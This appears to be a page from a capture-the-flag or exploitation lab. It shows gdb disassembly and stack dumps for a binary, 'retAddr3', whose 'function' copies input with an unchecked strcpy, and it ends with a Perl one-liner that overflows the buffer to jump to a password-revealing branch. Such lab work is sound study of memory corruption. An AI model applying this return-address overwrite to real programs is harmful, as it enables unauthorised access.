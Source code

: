 
```
Reading symbols from retAddr3...(no debugging symbols found)...done.
(gdb) break function
Breakpoint 1 at 0x80485d1
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048759 <+0>:     lea    0x4(%esp),%ecx
   0x0804875d <+4>:     and    $0xfffffff0,%esp
   0x08048760 <+7>:     pushl  -0x4(%ecx)
   0x08048763 <+10>:    push   %ebp
   0x08048764 <+11>:    mov    %esp,%ebp
   0x08048766 <+13>:    push   %ebx
   0x08048767 <+14>:    push   %ecx
   0x08048768 <+15>:    sub    $0x10,%esp
   0x0804876b <+18>:    mov    %ecx,%ebx
   0x0804876d <+20>:    movl   $0x8048994,-0xc(%ebp)
   0x08048774 <+27>:    call   0x8048652 <verifyLevelDecryption>
   0x08048779 <+32>:    test   %eax,%eax
   0x0804877b <+34>:    je     0x804879a <main+65>
   0x0804877d <+36>:    sub    $0x8,%esp
   0x08048780 <+39>:    pushl  -0xc(%ebp)
   0x08048783 <+42>:    push   $0x8048a28
   0x08048788 <+47>:    call   0x8048400 <printf@plt>
   0x0804878d <+52>:    add    $0x10,%esp
   0x08048790 <+55>:    sub    $0xc,%esp
   0x08048793 <+58>:    push   $0x0
   0x08048795 <+60>:    call   0x8048450 <exit@plt>
   0x0804879a <+65>:    cmpl   $0x1,(%ebx)
   0x0804879d <+68>:    jg     0x80487bf <main+102>
   0x0804879f <+70>:    mov    0x4(%ebx),%eax
   0x080487a2 <+73>:    mov    (%eax),%eax
   0x080487a4 <+75>:    sub    $0x8,%esp
   0x080487a7 <+78>:    push   %eax
   0x080487a8 <+79>:    push   $0x8048a2b
   0x080487ad <+84>:    call   0x8048400 <printf@plt>
   0x080487b2 <+89>:    add    $0x10,%esp
   0x080487b5 <+92>:    sub    $0xc,%esp
   0x080487b8 <+95>:    push   $0x0
   0x080487ba <+97>:    call   0x8048450 <exit@plt>
   0x080487bf <+102>:   movl   $0x0,-0x10(%ebp)
   0x080487c6 <+109>:   mov    0x4(%ebx),%eax
   0x080487c9 <+112>:   add    $0x4,%eax
   0x080487cc <+115>:   mov    (%eax),%eax
   0x080487ce <+117>:   push   %eax
   0x080487cf <+118>:   push   $0x3
   0x080487d1 <+120>:   push   $0x2
   0x080487d3 <+122>:   push   $0x1
   0x080487d5 <+124>:   call   0x80485cb <function>
   0x080487da <+129>:   add    $0x10,%esp
   0x080487dd <+132>:   movl   $0x1,-0x10(%ebp)
   0x080487e4 <+139>:   cmpl   $0x0,-0x10(%ebp)
   0x080487e8 <+143>:   jne    0x80487fc <main+163>
   0x080487ea <+145>:   sub    $0xc,%esp
   0x080487ed <+148>:   push   $0x8048a3f
   0x080487f2 <+153>:   call   0x8048440 <puts@plt>
   0x080487f7 <+158>:   add    $0x10,%esp
   0x080487fa <+161>:   jmp    0x8048829 <main+208>
   0x080487fc <+163>:   cmpl   $0x2,-0x10(%ebp)
   0x08048800 <+167>:   jne    0x8048819 <main+192>
   # here...
   0x08048802 <+169>:   sub    $0xc,%esp
   0x08048805 <+172>:   push   $0x8048a50
   0x0804880a <+177>:   call   0x8048440 <puts@plt>
   0x0804880f <+182>:   add    $0x10,%esp
   0x08048812 <+185>:   call   0x80486ed <getLevel2Password>
   0x08048817 <+190>:   jmp    0x8048829 <main+208>
   0x08048819 <+192>:   sub    $0xc,%esp
   0x0804881c <+195>:   push   $0x8048a3f
   0x08048821 <+200>:   call   0x8048440 <puts@plt>
   0x08048826 <+205>:   add    $0x10,%esp
   0x08048829 <+208>:   nop
   0x0804882a <+209>:   lea    -0x8(%ebp),%esp
   0x0804882d <+212>:   pop    %ecx
   0x0804882e <+213>:   pop    %ebx
   0x0804882f <+214>:   pop    %ebp
   0x08048830 <+215>:   lea    -0x4(%ecx),%esp
   0x08048833 <+218>:   ret    
End of assembler dump.
(gdb) 
```

```
(gdb) r AAAA
Starting program: /home/level1/Desktop/retAddr3 AAAA

Breakpoint 1, 0x080485d1 in function ()
(gdb) info reg
eax            0xbffff71f       -1073744097
ecx            0x10     16
edx            0xfffff948       -1720
ebx            0xbffff530       -1073744592
esp            0xbffff490       0xbffff490
ebp            0xbffff4e8       0xbffff4e8
esi            0xb7fb4000       -1208270848
edi            0x0      0
eip            0x80485d1        0x80485d1 <function+6>
eflags         0x286    [ PF SF IF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0

```
```
(gdb) disassemble function
Dump of assembler code for function function:
   0x080485cb <+0>:     push   %ebp
   0x080485cc <+1>:     mov    %esp,%ebp
   0x080485ce <+3>:     sub    $0x58,%esp
=> 0x080485d1 <+6>:     mov    0x8(%ebp),%ecx
   0x080485d4 <+9>:     mov    0xc(%ebp),%edx
   0x080485d7 <+12>:    mov    0x10(%ebp),%eax
   0x080485da <+15>:    mov    %cl,-0x4c(%ebp)
   0x080485dd <+18>:    mov    %dl,-0x50(%ebp)
   0x080485e0 <+21>:    mov    %al,-0x54(%ebp)
   0x080485e3 <+24>:    movl   $0xa,-0xc(%ebp)
   0x080485ea <+31>:    movw   $0x18,-0xe(%ebp)
   0x080485f0 <+37>:    movl   $0x0,-0x22(%ebp)
   0x080485f7 <+44>:    movl   $0x0,-0x1e(%ebp)
   0x080485fe <+51>:    movl   $0x0,-0x1a(%ebp)
   0x08048605 <+58>:    movl   $0x0,-0x16(%ebp)
   0x0804860c <+65>:    movl   $0x0,-0x12(%ebp)
   0x08048613 <+72>:    movl   $0x0,-0x32(%ebp)
   0x0804861a <+79>:    movl   $0x0,-0x2e(%ebp)
   0x08048621 <+86>:    movl   $0x0,-0x2a(%ebp)
   0x08048628 <+93>:    movl   $0x0,-0x26(%ebp)
   0x0804862f <+100>:   movl   $0x0,-0x3a(%ebp)
   0x08048636 <+107>:   movl   $0x0,-0x36(%ebp)
   0x0804863d <+114>:   sub    $0x8,%esp
   0x08048640 <+117>:   pushl  0x14(%ebp)
   0x08048643 <+120>:   lea    -0x32(%ebp),%eax
   0x08048646 <+123>:   push   %eax
   0x08048647 <+124>:   call   0x8048430 <strcpy@plt>
   0x0804864c <+129>:   add    $0x10,%esp
   0x0804864f <+132>:   nop
   0x08048650 <+133>:   leave  
   0x08048651 <+134>:   ret    
End of assembler dump.
```

(gdb) info frame
Stack level 0, frame at 0xbffff4f0:
 eip = 0x80485d1 in function; saved eip = 0x80487da
 called by frame at 0xbffff530
 Arglist at 0xbffff4e8, args: 
 Locals at 0xbffff4e8, Previous frame's sp is 0xbffff4f0
 Saved registers:
  ebp at 0xbffff4e8, eip at 0xbffff4ec
(gdb) bt
#0  0x080485d1 in function ()
#1  0x080487da in main ()
(gdb) 
#0  0x080485d1 in function ()
#1  0x080487da in main ()
(gdb) frame 0
#0  0x080485d1 in function ()
(gdb) frame
#0  0x080485d1 in function ()
(gdb) info frame
Stack level 0, frame at 0xbffff4f0:
 eip = 0x80485d1 in function; saved eip = 0x80487da
 called by frame at 0xbffff530
 Arglist at 0xbffff4e8, args: 
 Locals at 0xbffff4e8, Previous frame's sp is 0xbffff4f0
 Saved registers:
  ebp at 0xbffff4e8, eip at 0xbffff4ec
(gdb) x/8xw 0xbffffee8
0xbffffee8:     0x4444415f      0x53534552      0x696e753d      0x61703a78
0xbffffef8:     0x2f3d6874      0x2f6e7572      0x72657375      0x3030312f
(gdb) x/20xw 0xbffffee8
0xbffffee8:     0x4444415f      0x53534552      0x696e753d      0x61703a78
0xbffffef8:     0x2f3d6874      0x2f6e7572      0x72657375      0x3030312f
0xbfffff08:     0x75622f33      0x44580073      0x55525f47      0x4d49544e
0xbfffff18:     0x49445f45      0x722f3d52      0x752f6e75      0x2f726573
0xbfffff28:     0x33303031      0x54415000      0x682f3d48      0x2f656d6f
(gdb) x/20xw 0xbffff4e8
0xbffff4e8:     0xbffff518      0x080487da      0x00000001      0x00000002
0xbffff4f8:     0x00000003      0xbffff71f      0x00000002      0xbffff5c4
0xbffff508:     0x00000000      0x08048994      0xbffff530      0x00000000
0xbffff518:     0x00000000      0xb7df4f21      0xb7fb4000      0xb7fb4000
0xbffff528:     0x00000000      0xb7df4f21      0x00000002      0xbffff5c4
(gdb) x/58xw 0xbffff4e8
0xbffff4e8:     0xbffff518      0x080487da      0x00000001      0x00000002
0xbffff4f8:     0x00000003      0xbffff71f      0x00000002      0xbffff5c4
0xbffff508:     0x00000000      0x08048994      0xbffff530      0x00000000
0xbffff518:     0x00000000      0xb7df4f21      0xb7fb4000      0xb7fb4000
0xbffff528:     0x00000000      0xb7df4f21      0x00000002      0xbffff5c4
0xbffff538:     0xbffff5d0      0xbffff554      0x00000001      0x00000000
0xbffff548:     0xb7fb4000      0xb7fe776a      0xb7fff000      0x00000000
0xbffff558:     0xb7fb4000      0x00000000      0x00000000      0xee798310
0xbffff568:     0xaf0e2500      0x00000000      0x00000000      0x00000000
0xbffff578:     0x00000002      0x080484b0      0x00000000      0xb7fece30
0xbffff588:     0xb7fe79c0      0x0804a000      0x00000002      0x080484b0
0xbffff598:     0x00000000      0x080484e2      0x08048759      0x00000002
0xbffff5a8:     0xbffff5c4      0x08048840      0x080488a0      0xb7fe79c0
0xbffff5b8:     0xbffff5bc      0xb7fff940      0x00000002      0xbffff701
0xbffff5c8:     0xbffff71f      0x00000000
(gdb) x/16xw 0xbffff4e8
0xbffff4e8:     0xbffff518      0x080487da      0x00000001      0x00000002
0xbffff4f8:     0x00000003      0xbffff71f      0x00000002      0xbffff5c4
0xbffff508:     0x00000000      0x08048994      0xbffff530      0x00000000
0xbffff518:     0x00000000      0xb7df4f21      0xb7fb4000      0xb7fb4000



```
(gdb) x/32xw 0xbffff4e8 
0xbffff4e8:     0xbffff518      0x080487da      0x00000001      0x00000002
0xbffff4f8:     0x00000003      0xbffff71f      0x00000002      0xbffff5c4
0xbffff508:     0x00000000      0x08048994      0xbffff530      0x00000000
0xbffff518:     0x00000000      0xb7df4f21      0xb7fb4000      0xb7fb4000
0xbffff528:     0x00000000      0xb7df4f21      0x00000002      0xbffff5c4
0xbffff538:     0xbffff5d0      0xbffff554      0x00000001      0x00000000
0xbffff548:     0xb7fb4000      0xb7fe776a      0xb7fff000      0x00000000
0xbffff558:     0xb7fb4000      0x00000000      0x00000000      0xee798310
```





```
 ./retAddr3 $(perl -e 'print "A"x54 . "\x02\x88\x04\x08"')

```

